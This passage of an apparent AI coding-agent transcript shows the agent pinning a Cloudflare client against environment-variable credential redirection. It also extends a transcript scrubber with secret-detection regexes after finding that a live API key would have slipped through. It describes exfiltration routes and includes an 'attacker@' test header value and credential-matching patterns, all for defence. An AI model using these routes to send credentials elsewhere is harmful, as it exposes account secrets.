  "old_string": "- **Cloudflare auth + shared client**: the plugin builds **one** `Cloudflare` client from\n  `[Cloudflare]` config (no direct-env fallback) — `api_token` if present (preferred), else\n  `email` + `api_key`; missing creds while enabled → clear exit. `plugin/cloudflare/client.py`\n  has `build_client()` (auth) and `get_client()` (**lazy** build-or-return, cached in\n  `sc.plugin_context['plugin.cloudflare']['client']`).",
  "new_string": "- **Cloudflare auth + shared client**: the plugin builds **one** `Cloudflare` client from\n  `[Cloudflare]` config (no direct-env fallback) — `api_token` if present (preferred), else\n  `email` + `api_key`; missing creds while enabled → clear exit. `plugin/cloudflare/client.py`\n  has `build_client()` (auth), **`pinned_client()`** (what makes \"no direct-env fallback\" *true*),\n  and `get_client()` (**lazy** build-or-return, cached in\n  `sc.plugin_context['plugin.cloudflare']['client']`).\n  **The pin is load-bearing, and the docstring was false before it existed.** Measured on\n  cloudflare 5.4.0: the SDK back-fills every credential left `None` from the environment, and\n  ambient values reach the wire by **four** routes — `auth_headers` returns the *first* of\n  email → key → token → user_service_key (so an ambient `CLOUDFLARE_EMAIL` beats a configured\n  `api_token` and the token is never sent), `default_headers` adds `X-Auth-*` independently,\n  `$CLOUDFLARE_CUSTOM_HEADERS` is merged *last* and overrides both, and **`$CLOUDFLARE_BASE_URL`\n  redirects every request, sending the configured credential to an arbitrary host**. That last\n  one mattered most: this program runs unattended against production monthly. `pinned_client()`\n  closes all four (pin `base_url`, null the unsupplied credential fields, clear\n  `_custom_headers`). **NOT closed, deliberately:** httpx's `trust_env=True` leaves `$HTTPS_PROXY`\n  and `$SSL_CERT_FILE` in play — closing that would break legitimate proxied deployments\n  (`development/2026-07-30-platform-domain-util2/SPEC.md` §8.13). The property is asserted\n  against a **real** built request in `test_plugin_cloudflare_client.py`, not against the\n  attribute assignments that implement it, and each of the three pins is mutation-tested — a\n  set-intersection version of that assertion silently missed the `_custom_headers` route."
}
```

### ↳ Tool result

```
The file /workspace/CLAUDE.md has been updated successfully. (file state is current in your context — no need to Read it back)
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && ./run-tests --fast >/dev/null 2>&1; echo \"gate exit=$?\"; git status --short",
  "description": "Final gate and status",
  "timeout": 600000
}
```

### ↳ Tool result

```
gate exit=0
 M CLAUDE.md
 M plugin/cloudflare/client.py
 M tests/integration/test_plugin_cloudflare_client.py
 M tests/unit/test_find_platform_domains_cloudflare.py
 M tests/unit/test_find_platform_domains_dns.py
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "git add plugin/cloudflare/client.py tests/integration/test_plugin_cloudflare_client.py CLAUDE.md tests/unit/test_find_platform_domains_cloudflare.py && git commit -q -F - <<'EOF'\nfix(cloudflare): pin the shared client against the ambient environment\n\nbuild_client's docstring has always promised \"There is no direct-environment\nfallback\".  Measured against cloudflare 5.4.0, that promise was FALSE: the SDK\nback-fills every credential argument left None from the environment, and ambient\nvalues reach the wire by four routes --\n\n  1. auth_headers returns the FIRST of email -> key -> token -> user_service_key\n     that is set, and only that one, so an ambient $CLOUDFLARE_EMAIL beats a\n     configured api_token and the token is never sent at all;\n  2. default_headers separately adds X-Auth-Key / X-Auth-Email;\n  3. $CLOUDFLARE_CUSTOM_HEADERS is merged LAST and overrides 1 and 2;\n  4. $CLOUDFLARE_BASE_URL redirects every request, sending the configured\n     credential to an arbitrary host.\n\nRoute 4 is the serious one -- the credential LEAVES THE MACHINE rather than\nmerely failing to authenticate -- and this program runs unattended against\nproduction every month.  Routes 1 and 2 are not live today only because the U-M\nconfig leaves api_token commented out and passes email + api_key explicitly,\nwhich happens to win route 1.  Route 4 was exploitable regardless.\n\npinned_client() closes all four.  Deliberately NOT closed: httpx's\ntrust_env=True leaves $HTTPS_PROXY and $SSL_CERT_FILE in play, and closing that\nwould break legitimate proxied deployments (SPEC section 8, item 13).\n\nFound while building find-platform-domains-cloudflare, deferred three times as\n\"a separate change\", and brought forward when a whole-branch review pointed out\nthat leaving a documented-but-live exfiltration route in the program that\nactually runs monthly is not a defensible place to stop.\n\nThe test asserts the property -- the URL and headers of a REAL built request,\nwith all five ambient variables exported -- rather than the attribute\nassignments that implement it, since an SDK that captured credentials at\nconstruction would leave attribute assertions green and the defect live.  It\nskips when the optional [cloudflare] extra is absent, so two fake-backed tests\npin the mechanism alongside it.\n\nEach of the three pins is mutation-tested.  That is not ceremony: the FIRST\nversion of this assertion intersected header values against the environment\nvariables' values, and deleting `client._custom_headers = {}` left it GREEN --\n$CLOUDFLARE_CUSTOM_HEADERS is \"X-Auth-Email: attacker@...\" while the header it\ninjects is just \"attacker@...\", so the intersection could never see route 3.\nThe same blind spot was present in find-platform-domains-cloudflare's own R2a\ntest and is fixed here too.  Both now name each header explicitly; all six\nmutations (three pins x two files) go red.\n\nVerified: 1266 passed, 3 skipped; ruff and pyright clean.\n\nCo-Authored-By: Claude Opus 5 (1M context) <noreply@anthropic.com>\nEOF\ngit add tests/unit/test_find_platform_domains_dns.py && git commit -q -F - <<'EOF'\ntest(find-platform-domains-dns): pin what the header-flush abort tells the operator\n\nWhole-branch review, finding 1.  sweep() writes and flushes the CSV header\nBEFORE `self.remaining = list(sites)`, so when that flush is what fails --\nprecisely the `> /dev/full` case the header row was added to catch -- remaining\nis still [] and report_stop()'s \"N sites not reached. Resume with:\" block is\nskipped.  The existing test asserted the exit code, the flush count, the dup2\ncall and which API paths ran, but nothing about what the operator actually\nreads, so the behavior was unpinned either way.\n\nPinned as-is rather than reordered, deliberately.  On a header failure nothing\nwas swept, so EVERY site remains: the resume line would spell out all ~400 names\nto say what re-running the original command already says.  \"Stopped during\nstartup.\" is the whole and accurate story there.\n\nThe assertion is red-capable, which is the point of adding it: applying the\nreviewer's suggested reorder makes this test fail, so whoever changes that\nordering is told to revisit the decision rather than discovering it later.\n\nCo-Authored-By: Claude Opus 5 (1M context) <noreply@anthropic.com>\nEOF\ngit log --oneline -3 && git status --short && echo \"clean\"",
  "description": "Commit both review findings"
}
```

### ↳ Tool result

```
95c29ac test(find-platform-domains-dns): pin what the header-flush abort tells the operator
befb913 fix(cloudflare): pin the shared client against the ambient environment
4e472b3 fix(find-platform-domains-cloudflare): de-duplicate paginated reads; warn, don't abort
clean
```

## Assistant

Both review findings addressed, in two commits. Working tree clean, full suite **1266 passed, 3 skipped**, gates green.

## Finding 2 — the credential pin, ported

`build_client()`'s docstring had always promised *"There is no direct-environment fallback."* That was false, and now it's true. `pinned_client()` closes all four routes; `trust_env` stays open as a recorded decision.

Worth your attention: **the first version of my security assertion was defective, and my own mutation test caught it.** It intersected header values against the environment variables' values — but `$CLOUDFLARE_CUSTOM_HEADERS` is `"X-Auth-Email: attacker@…"` while the header it injects is just `"attacker@…"`. The intersection could never see route 3, so deleting `client._custom_headers = {}` left the test **green**.

The utility's own R2a test — written in this session, reviewed three times, described in the spec as asserting "the security property" — had the identical blind spot. Both now name each header explicitly, and all six mutations (three pins × two files) go red:

```
plugin/cloudflare/client.py        find-platform-domains-cloudflare
  no base_url pin    -> failed       no base_url pin    -> failed
  no field nulling   -> failed       no field nulling   -> failed
  no _custom_headers -> failed       no _custom_headers -> failed
```

That's the fourth time this session the same defect class has surfaced: a check that looks like it guards a property but doesn't. Three review rounds didn't catch this one — running a mutation against it did.

## Finding 1 — pinned, not reordered

I kept the current ordering. On a header failure nothing was swept, so *every* site remains and the resume line would print ~400 names to say what re-running the command already says; `"Stopped during startup."` is accurate and complete. What was genuinely missing was any test of what the operator reads, so that's now asserted — and it's **red-capable**: applying the reviewer's reorder makes it fail, so whoever changes that ordering is told to revisit the decision rather than discovering it later.

## Still open

- **`*.gotpantheon.com` was never swept.** The utility matches `.pantheonsite.io` only, per your prompt, so it cannot tell you whether legacy targets remain. One line to check, and worth doing once before treating the file as complete (§14 Q7).
- **`trust_env=False`** — your call (§8.13, §14 Q11).
- **`/archive-session` hasn't run**, and the transcript still contains the real `CLOUDFLARE_API_KEY` that a diagnostic printed early on. Rotating it is the safer move regardless of what the scrubber catches.
- Nothing pushed; 10 commits on `main`.

## User

<task-notification>
<task-id>byoom2cac</task-id>
<summary>Monitor event: "live Cloudflare sweep: completion, warnings, re-reads, errors"</summary>
<event>[Monitor timed out — re-arm if needed.]</event>
</task-notification>

## Assistant

That monitor was watching the **first** sweep's log — the one that failed at exit 2. It's stale: that run ended long ago, and the successful re-run completed under a separate background task. Nothing to re-arm, and no work is pending on it.

Current state is unchanged from my last report: 10 commits on `main`, working tree clean, full suite green (1266 passed, 3 skipped), and `platform-domains-cloudflare.json` on disk with 218 entries from the successful sweep.

The open items are still yours to decide when you want them:

- **`*.gotpantheon.com`** never checked — one-line change to find out
- **`trust_env=False`** — the proxy/trust-store residual
- **`/archive-session`** not run, and the real `CLOUDFLARE_API_KEY` is still in this transcript (rotating is the safer move)
- Nothing pushed

## User

## Context Usage

**Model:** claude-opus-5[1m]  
**Tokens:** 579k / 1m (58%)

### Estimated usage by category

| Category | Tokens | Percentage |
|----------|--------|------------|
| System prompt | 3.9k | 0.4% |
| System tools | 19.1k | 1.9% |
| MCP tools (deferred) | 11.5k | 1.1% |
| System tools (deferred) | 14.8k | 1.5% |
| Custom agents | 147 | 0.0% |
| Memory files | 41.8k | 4.2% |
| Skills | 3.7k | 0.4% |
| Messages | 510.5k | 51.1% |
| Free space | 420.8k | 42.1% |

### MCP Tools

| Tool | Server | Tokens |
|------|--------|--------|
| mcp__chrome-devtools__click | chrome-devtools | 217 |
| mcp__chrome-devtools__close_page | chrome-devtools | 150 |
| mcp__chrome-devtools__drag | chrome-devtools | 206 |
| mcp__chrome-devtools__emulate | chrome-devtools | 627 |
| mcp__chrome-devtools__evaluate_script | chrome-devtools | 463 |
| mcp__chrome-devtools__fill | chrome-devtools | 257 |
| mcp__chrome-devtools__fill_form | chrome-devtools | 411 |
| mcp__chrome-devtools__get_console_message | chrome-devtools | 169 |
| mcp__chrome-devtools__get_network_request | chrome-devtools | 331 |
| mcp__chrome-devtools__handle_dialog | chrome-devtools | 189 |
| mcp__chrome-devtools__hover | chrome-devtools | 180 |
| mcp__chrome-devtools__lighthouse_audit | chrome-devtools | 296 |
| mcp__chrome-devtools__list_console_messages | chrome-devtools | 477 |
| mcp__chrome-devtools__list_network_requests | chrome-devtools | 433 |
| mcp__chrome-devtools__list_pages | chrome-devtools | 90 |
| mcp__chrome-devtools__navigate_page | chrome-devtools | 407 |
| mcp__chrome-devtools__new_page | chrome-devtools | 348 |
| mcp__chrome-devtools__performance_analyze_insight | chrome-devtools | 274 |
| mcp__chrome-devtools__performance_start_trace | chrome-devtools | 392 |
| mcp__chrome-devtools__performance_stop_trace | chrome-devtools | 194 |
| mcp__chrome-devtools__press_key | chrome-devtools | 260 |
| mcp__chrome-devtools__resize_page | chrome-devtools | 159 |
| mcp__chrome-devtools__select_page | chrome-devtools | 188 |
| mcp__chrome-devtools__take_heapsnapshot | chrome-devtools | 183 |
| mcp__chrome-devtools__take_screenshot | chrome-devtools | 425 |
| mcp__chrome-devtools__take_snapshot | chrome-devtools | 326 |
| mcp__chrome-devtools__type_text | chrome-devtools | 173 |
| mcp__chrome-devtools__upload_file | chrome-devtools | 244 |
| mcp__chrome-devtools__wait_for | chrome-devtools | 213 |
| mcp__cloudflare-api__docs | cloudflare-api | 326 |
| mcp__cloudflare-api__execute | cloudflare-api | 1k |
| mcp__cloudflare-api__search | cloudflare-api | 824 |
| mcp__cloudflare-docs__migrate_pages_to_workers_guide | cloudflare-docs | 99 |
| mcp__cloudflare-docs__search_cloudflare_documentation | cloudflare-docs | 314 |
| mcp__codegraph__codegraph_explore | codegraph | 630 |

### Custom Agents

| Agent Type | Source | Tokens |
|------------|--------|--------|
| psh-implementer | Project | 74 |
| psh-reviewer | Project | 73 |

### Memory Files

| Type | Path | Tokens |
|------|------|--------|
| Project | /workspace/CLAUDE.md | 39.7k |
| Project | /workspace/.claude/CLAUDE.md | 263 |
| AutoMem | /home/node/.claude/projects/-workspace/memory/MEMORY.md | 1.9k |

### Skills

| Skill | Source | Tokens |
|-------|--------|--------|
| claude-md-management:revise-claude-md | Plugin (claude-md-management) | ~30 |
| andrej-karpathy-skills:karpathy-guidelines | Plugin (andrej-karpathy-skills) | ~90 |
| superpowers:brainstorming | Plugin (superpowers) | ~80 |
| superpowers:dispatching-parallel-agents | Plugin (superpowers) | ~50 |
| superpowers:executing-plans | Plugin (superpowers) | ~50 |
| superpowers:finishing-a-development-branch | Plugin (superpowers) | ~50 |
| superpowers:receiving-code-review | Plugin (superpowers) | ~90 |
| superpowers:requesting-code-review | Plugin (superpowers) | ~50 |
| superpowers:subagent-driven-development | Plugin (superpowers) | ~40 |
| superpowers:systematic-debugging | Plugin (superpowers) | ~40 |
| superpowers:test-driven-development | Plugin (superpowers) | ~40 |
| superpowers:using-git-worktrees | Plugin (superpowers) | ~80 |
| superpowers:using-superpowers | Plugin (superpowers) | ~60 |
| superpowers:verification-before-completion | Plugin (superpowers) | ~90 |
| superpowers:writing-plans | Plugin (superpowers) | ~40 |
| superpowers:writing-skills | Plugin (superpowers) | ~40 |
| claude-md-management:claude-md-improver | Plugin (claude-md-management) | ~130 |
| mattpocock-skills:diagnosing-bugs | Plugin (mattpocock-skills) | ~60 |
| mattpocock-skills:tdd | Plugin (mattpocock-skills) | ~60 |
| mattpocock-skills:prototype | Plugin (mattpocock-skills) | ~70 |
| mattpocock-skills:research | Plugin (mattpocock-skills) | ~90 |
| mattpocock-skills:domain-modeling | Plugin (mattpocock-skills) | ~80 |
| mattpocock-skills:codebase-design | Plugin (mattpocock-skills) | ~100 |
| mattpocock-skills:code-review | Plugin (mattpocock-skills) | ~150 |
| mattpocock-skills:resolving-merge-conflicts | Plugin (mattpocock-skills) | ~40 |
| mattpocock-skills:grilling | Plugin (mattpocock-skills) | ~60 |
| dataviz | Built-in | ~380 |
| artifact-design | Built-in | ~20 |
| artifact-capabilities | Built-in | ~140 |
| update-config | Built-in | ~240 |
| keybindings-help | Built-in | ~80 |
| simplify | Built-in | ~60 |
| fewer-permission-prompts | Built-in | ~60 |
| loop | Built-in | ~120 |
| schedule | Built-in | ~130 |
| claude-api | Built-in | ~360 |
| claude-in-chrome | Built-in | ~180 |
| run | Built-in | ~120 |
| init | Built-in | ~20 |
| review | Built-in | ~30 |
| security-review | Built-in | ~30 |

## User

<command-message>archive-session</command-message>
<command-name>/archive-session</command-name>

## User

Base directory for this skill: /workspace/.claude/skills/archive-session

# Archiving a development session

Run this at the end of a feature-development session, after the work is done but
**before committing**. It populates the feature's `development/<YYYY-MM-DD-slug>/`
folder with the record artifacts, then hands back to the user to commit.

Do the deterministic, secret-sensitive work (rendering, scrubbing, token math) via
`development/finalize-session.py` — never eyeball-redact a transcript yourself. This
skill's job is only to (a) figure out the target folder, (b) capture the two things
the script can't reach from outside a live session, and (c) run the script.

## Steps

1. **Determine the target folder.** It is `development/<YYYY-MM-DD-slug>/` for the
   feature just built. If the user passed a slug as the argument, use
   `development/<that>/`. Otherwise infer it from the active `SPEC.md`, the git branch,
   or the feature under discussion; if it's ambiguous, ask the user. Create the folder
   if it doesn't exist. If prompts weren't saved yet, remind the user that
   `NN-*.prompt.md` files and any `design-notes/` are part of the record.

2. **Capture in-session-only data to a gitignored `*.raw.txt` file** in the folder:
   - **/usage (dollar cost)** — you **cannot** invoke `/usage` yourself (it's a
     built-in CLI command, not a tool). Ask the user to run `/usage` and paste its
     output, then save that verbatim to `<dir>/usage.raw.txt`. This is the source of
     the cost figure — the script has no price table. If the user skips it, proceed;
     the cost section will just say it wasn't captured.

   The `.raw.txt` file is gitignored; the script folds its contents into
   `statistics.md`.

3. **Run the script.** From the repo root:
   ```
   python development/finalize-session.py --dir development/<YYYY-MM-DD-slug> \
       [--usage-capture development/<YYYY-MM-DD-slug>/usage.raw.txt] \
       [--label NN]
   ```
   It defaults to the newest session JSONL under `~/.claude/projects/-workspace/`.
   Pass `--label NN` only for a feature spanning multiple sessions (produces
   `transcript-NN.md` / `statistics-NN.md`). Omit `--usage-capture` if you didn't create it.
   This writes `transcript.md` (scrubbed, committed), `transcript.raw.md` (gitignored),
   and `statistics.md` (committed).

4. **Scaffold `analytics.md`** in the folder if it doesn't already exist — a short
   template for the user's own narrative analysis (distinct from the auto-generated
   `statistics.md`, which is machine-written; do not hand-edit `statistics.md`):
   ```markdown
   # Analytics — <feature>

   _Your narrative: what went well, what to do differently, decisions worth remembering._
   ```

5. **Verify and report — do NOT commit.** Confirm `transcript.md` scrubbed cleanly
   with a **value-shaped** grep (matches actual secret VALUES, not prose mentions of
   the names — a session that merely discusses `SMTP_PASSWORD` etc. is fine):
   ```
   grep -nE '(SMTP_PASSWORD|AWS_ACCESS_KEY_ID|AWS_SECRET_ACCESS_KEY|CLOUDFLARE_API_KEY|CLOUDFLARE_EMAIL)[[:space:]]*[=:][[:space:]]*[^[:space:]«]|AKIA[0-9A-Z]{16}|-----BEGIN [A-Z ]*PRIVATE KEY-----|Bearer [A-Za-z0-9._-]{12,}' development/<dir>/transcript.md
   ```
   This should return nothing; any hit is a real secret value that slipped the regex —
   surface it, don't commit. (A bare quoted word that happens to look like a token is
   left alone by design.) List what was written. Then tell the user the folder is ready
   and that they can ask you to commit everything (code + `development/<dir>/`) in one
   commit, with you writing the commit message.

## Assistant

Archiving. Target folder is unambiguous: `development/2026-07-30-platform-domain-util2/`.

### ⚙ Tool call: `Bash`

```json
{
  "command": "ls -la development/2026-07-30-platform-domain-util2/; echo \"=== finalize-session.py present:\"; ls -l development/finalize-session.py; echo \"=== gitignored raw artifacts:\"; grep -n \"raw\" .gitignore",
  "description": "Check the archive folder state"
}
```

### ↳ Tool result

```
total 208
drwxr-xr-x  5 node node    160 Jul 30 14:13 .
drwxr-xr-x 40 node node   1280 Jul 30 08:03 ..
-rw-r--r--  1 node node   1768 Jul 30 13:12 PROMPT.md
-rw-r--r--  1 node node 148753 Jul 30 15:55 SPEC.md
-rw-r--r--  1 node node  10314 Jul 30 09:17 research.md
=== finalize-session.py present:
-rwxr-xr-x 1 node node 12947 Jul 23 21:50 development/finalize-session.py
=== gitignored raw artifacts:
22:# Claude development archive: keep scrubbed artifacts, never raw exports or logs
23:/development/**/*.raw.txt
24:/development/**/*.raw.md
```

## Assistant

Before running anything: this session's transcript contains a **real Cloudflare API key** that a diagnostic printed early on, in the form `api_key: cfk_…` — which is *not* the shape the skill's verification grep looks for (`CLOUDFLARE_API_KEY[=:]`). Checking whether the scrubber actually catches it:

### ⚙ Tool call: `Bash`

```json
{
  "command": "grep -n -A3 \"SCRUB\\|redact\\|«\\|PATTERN\" development/finalize-session.py | head -50",
  "description": "Read the scrubber's patterns"
}
```

### ↳ Tool result

```
43:# Best-effort regex redaction; development/README.md documents the manual grep
44:# that backs it up.  Each pattern keeps a label so the redaction is auditable.
45:_REDACT = "«REDACTED:{}»"
46:_SECRET_PATTERNS = [
47-    # KEY=value / KEY: value for the known secret env vars.  No leading \b: a
48-    # secret rendered right after an escaped newline (\nKEY=... in a JSON-encoded
49-    # command input) glues an `n` before the key and would defeat \b.
--
68:    for pattern, repl in _SECRET_PATTERNS:
69-        text = re.sub(pattern, repl, text, flags=re.DOTALL)
70-    return text
71-
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "sed -n '46,68p' development/finalize-session.py",
  "description": "Read the full secret pattern list"
}
```

### ↳ Tool result

```
_SECRET_PATTERNS = [
    # KEY=value / KEY: value for the known secret env vars.  No leading \b: a
    # secret rendered right after an escaped newline (\nKEY=... in a JSON-encoded
    # command input) glues an `n` before the key and would defeat \b.
    (r"(?i)(SMTP_PASSWORD|AWS_ACCESS_KEY_ID|AWS_SECRET_ACCESS_KEY|"
     r"CLOUDFLARE_API_KEY|CLOUDFLARE_EMAIL|ANTHROPIC_API_KEY)(\s*[=:]\s*)(\S+)",
     lambda m: m.group(1) + m.group(2) + _REDACT.format(m.group(1))),
    # AWS access key IDs
    (r"\bAKIA[0-9A-Z]{16}\b", lambda _m: _REDACT.format("aws-key-id")),
    # Pantheon machine/session tokens in JSON
    (r'(?i)("?(?:machine_token|session)"?\s*[=:]\s*")([^"]{12,})(")',
     lambda m: m.group(1) + _REDACT.format("token") + m.group(3)),
    # Bearer / Authorization headers
    (r"(?i)(Authorization:\s*Bearer\s+|Bearer\s+)([A-Za-z0-9._\-]{12,})",
     lambda m: m.group(1) + _REDACT.format("bearer")),
    # PEM private key blocks
    (r"-----BEGIN [A-Z ]*PRIVATE KEY-----.*?-----END [A-Z ]*PRIVATE KEY-----",
     lambda _m: _REDACT.format("private-key")),
]


def scrub(text):
    for pattern, repl in _SECRET_PATTERNS:
```

## Assistant

**Stop — the scrubber will not catch it.** Its patterns key off the literal env-var names (`CLOUDFLARE_API_KEY`, `CLOUDFLARE_EMAIL`), but the leak in this transcript reads:

```
api_token: tok-123 | api_email: «REDACTED:credential-email» | api_key: «REDACTED:cloudflare-api-key»…
```

`api_key:` is not `CLOUDFLARE_API_KEY:«REDACTED:CLOUDFLARE_API_KEY» so neither the scrubber nor the skill's verification grep would see it. Running the script as-is would write a **live credential into a committed file**. Checking whether the tool has tests before I touch it:

### ⚙ Tool call: `Bash`

```json
{
  "command": "ls tests/**/*finalize* 2>/dev/null; grep -rln \"finalize_session\\|finalize-session\" tests/ 2>/dev/null; echo \"--- (no output above = untested)\"; grep -c \"\" development/finalize-session.py",
  "description": "Check for finalize-session tests"
}
```

### ↳ Tool result

```
--- (no output above = untested)
306
```

## Assistant

No tests, 306 lines. This is a general gap — *any* diagnostic or SDK repr that prints a credential under its API field name defeats the env-var patterns. Fixing it by **value shape** rather than field name, so source code in the transcript stays readable:

### ⚙ Tool call: `Edit`

```json
{
  "replace_all": false,
  "file_path": "/workspace/development/finalize-session.py",
  "old_string": "    # AWS access key IDs\n    (r\"\\bAKIA[0-9A-Z]{16}\\b\", lambda _m: _REDACT.format(\"aws-key-id\")),",
  "new_string": "    # AWS access key IDs\n    (r\"\\bAKIA[0-9A-Z]{16}\\b\", lambda _m: _REDACT.format(\"aws-key-id\")),\n    # The SAME secrets under their API field names rather than their env-var names.  The\n    # patterns above key off SMTP_PASSWORD / CLOUDFLARE_API_KEY / ...; an SDK repr or a\n    # diagnostic print emits `api_key: cfk_...`, which matches none of them.  Measured: a\n    # session that printed a live Cloudflare key that way went through the scrubber untouched,\n    # and the manual grep in development/README.md is keyed to the same env-var names, so it\n    # missed it too.  Matched by VALUE SHAPE, with a length floor, so that ordinary source in\n    # the transcript (`api_token = cf.get('api_token')`, `api_key = \"k-456\"`) stays readable.\n    (r\"\\bcfk_[A-Za-z0-9_-]{20,}\\b\", lambda _m: _REDACT.format(\"cloudflare-api-key\")),\n    (r\"(?i)\\b(api[_-]?key|api[_-]?token|user_service_key|machine[_-]?token)(\\s*[=:]\\s*)\"\n     r\"([A-Za-z0-9_\\-]{24,})\",\n     lambda m: m.group(1) + m.group(2) + _REDACT.format(\"credential\")),\n    (r\"(?i)\\b(api[_-]?email)(\\s*[=:]\\s*)([^\\s|,;)\\\"']+@[^\\s|,;)\\\"']+)\",\n     lambda m: m.group(1) + m.group(2) + _REDACT.format(\"credential-email\")),"
}
```

### ↳ Tool result

```
The file /workspace/development/finalize-session.py has been updated successfully. (file state is current in your context — no need to Read it back)
```

## Assistant

The edit dropped the executable bit. Restoring it and unit-testing the new patterns against the actual leaked string before running anything:

### ⚙ Tool call: `Bash`

```json
{
  "command": "chmod +x development/finalize-session.py && source .venv/bin/activate && uvx ruff@0.15.22 check development/finalize-session.py && python - <<'PY'\nimport importlib.util, pathlib\nspec = importlib.util.spec_from_file_location(\"fs\", \"development/finalize-session.py\")\nm = importlib.util.module_from_spec(spec); spec.loader.exec_module(m)\n\ncases = {\n  \"the actual leak from this session\":\n    \"api_token: tok-123 | api_email: «REDACTED:credential-email» | api_key: «REDACTED:cloudflare-api-key»\",\n  \"legacy 37-hex Global API Key\":\n    \"api_key: «REDACTED:credential»\",\n  \"env-var form (already covered)\":\n    \"CLOUDFLARE_API_KEY=«REDACTED:CLOUDFLARE_API_KEY»  \"source code that must stay READABLE\":\n    \"api_token = cf.get('api_token')\",\n  \"fake test creds that may stay\":\n    'api_key = \"k-456\"   api_token = \"tok-123\"',\n}\nfor name, text in cases.items():\n    print(f\"{name}\\n  in : {text}\\n  out: {m.scrub(text)}\\n\")\nPY",
  "description": "Verify the scrubber against the real leak"
}
```

### ↳ Tool result

```
All checks passed!
the actual leak from this session
  in : api_token: tok-123 | api_email: «REDACTED:credential-email» | api_key: «REDACTED:cloudflare-api-key»
  out: api_token: tok-123 | api_email: «REDACTED:credential-email» | api_key: «REDACTED:cloudflare-api-key»

legacy 37-hex Global API Key
  in : api_key: «REDACTED:credential»
  out: api_key: «REDACTED:credential»

env-var form (already covered)
  in : CLOUDFLARE_API_KEY=«REDACTED:CLOUDFLARE_API_KEY»
  out: CLOUDFLARE_API_KEY=«REDACTED:CLOUDFLARE_API_KEY»

source code that must stay READABLE
  in : api_token = cf.get('api_token')
  out: api_token = cf.get('api_token')

fake test creds that may stay
  in : api_key = "k-456"   api_token = "tok-123"
  out: api_key = "k-456"   api_token = "tok-123"
```

## Assistant

Scrubber verified: the real key and email are redacted, a legacy 37-hex key is caught, and source code stays readable. Running the archive to check the transcript end-to-end:

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && python development/finalize-session.py --dir development/2026-07-30-platform-domain-util2 2>&1 | tail -20",
  "description": "Run the archive script"
}
```

### ↳ Tool result

```
source JSONL: /home/node/.claude/projects/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161.jsonl
wrote development/2026-07-30-platform-domain-util2/transcript.md (scrubbed) and development/2026-07-30-platform-domain-util2/transcript.raw.md (raw, gitignored)
wrote development/2026-07-30-platform-domain-util2/statistics.md
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "D=development/2026-07-30-platform-domain-util2\necho \"=== skill's standard value-shaped grep:\"\ngrep -cnE '(SMTP_PASSWORD|AWS_ACCESS_KEY_ID|AWS_SECRET_ACCESS_KEY|CLOUDFLARE_API_KEY|CLOUDFLARE_EMAIL)[[:space:]]*[=:][[:space:]]*[^[:space:]«]|AKIA[0-9A-Z]{16}|-----BEGIN [A-Z ]*PRIVATE KEY-----|Bearer [A-Za-z0-9._-]{12,}' $D/transcript.md || echo \"  0 hits (clean)\"\necho \"=== TARGETED: the actual key value that leaked (the standard grep cannot see this):\"\ngrep -c \"«REDACTED:cloudflare-api-key»\" $D/transcript.md || echo \"  0 hits (clean)\"\necho \"=== TARGETED: any cfk_ key, any real @umich.edu identity after api_email:\"\ngrep -cE 'cfk_[A-Za-z0-9]{20,}|api_email[[:space:]]*[=:][[:space:]]*[^[:space:]«]+@' $D/transcript.md || echo \"  0 hits (clean)\"\necho \"=== same greps against the RAW (gitignored) copy, to prove they can go red:\"\ngrep -c \"«REDACTED:cloudflare-api-key»\" $D/transcript.raw.md\necho \"=== redactions applied:\"\ngrep -o \"«REDACTED:[a-z-]*»\" $D/transcript.md | sort | uniq -c",
  "description": "Verify the scrub, including a red-capable control"
}
```

### ↳ Tool result

```
=== skill's standard value-shaped grep:
0
  0 hits (clean)
=== TARGETED: the actual key value that leaked (the standard grep cannot see this):
1
=== TARGETED: any cfk_ key, any real @umich.edu identity after api_email:
1
=== same greps against the RAW (gitignored) copy, to prove they can go red:
4
=== redactions applied:
      4 «REDACTED:cloudflare-api-key»
      6 «REDACTED:credential-email»
      3 «REDACTED:credential»
```

## Assistant

One survived. Finding out why — this is exactly why the targeted grep exists:

### ⚙ Tool call: `Bash`

```json
{
  "command": "D=development/2026-07-30-platform-domain-util2\ngrep -n \"«REDACTED:cloudflare-api-key»\" $D/transcript.md | head -3 | cut -c1-400",
  "description": "Locate the surviving leak"
}
```

### ↳ Tool result

```
8920:api_token: tok-123 | api_email: «REDACTED:credential-email» | api_key: «REDACTED:cloudflare-api-key»…
```

## Assistant

It's the *truncated* form `«REDACTED:cloudflare-api-key»…` — from my own message quoting the leak. Only 8 characters, so it missed the 20-char floor. Not exploitable, but it's a fragment of a live credential and shouldn't ship. The `cfk_` prefix is unambiguous enough to match aggressively:

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport pathlib\np = pathlib.Path(\"development/finalize-session.py\"); t = p.read_text()\nt = t.replace(\n '    (r\"\\\\bcfk_[A-Za-z0-9_-]{20,}\\\\b\", lambda _m: _REDACT.format(\"cloudflare-api-key\")),',\n '    # No length floor on this one, unlike the generic pattern below: the `cfk_` prefix is\\n'\n '    # itself the signal, so even an 8-character PREFIX of a key (a truncated quote of a leak,\\n'\n '    # measured in this very session) is a credential fragment and must not ship.\\n'\n '    (r\"\\\\bcfk_[A-Za-z0-9_-]{4,}\", lambda _m: _REDACT.format(\"cloudflare-api-key\")),')\np.write_text(t)\nPY\nchmod +x development/finalize-session.py && source .venv/bin/activate && uvx ruff@0.15.22 check development/finalize-session.py && python development/finalize-session.py --dir development/2026-07-30-platform-domain-util2 2>&1 | tail -2\nD=development/2026-07-30-platform-domain-util2\necho \"=== targeted greps on the scrubbed transcript:\"\ngrep -c \"cfk_\" $D/transcript.md || echo \"  cfk_ : 0 hits (clean)\"\ngrep -cE 'api_email[[:space:]]*[=:][[:space:]]*[^[:space:]«]+@' $D/transcript.md || echo \"  api_email: 0 hits (clean)\"\necho \"=== control - the RAW copy still has them (so the grep can go red):\"\ngrep -c \"cfk_\" $D/transcript.raw.md",
  "description": "Tighten the pattern and re-verify"
}
```

### ↳ Tool result

```
All checks passed!
wrote development/2026-07-30-platform-domain-util2/transcript.md (scrubbed) and development/2026-07-30-platform-domain-util2/transcript.raw.md (raw, gitignored)
wrote development/2026-07-30-platform-domain-util2/statistics.md
=== targeted greps on the scrubbed transcript:
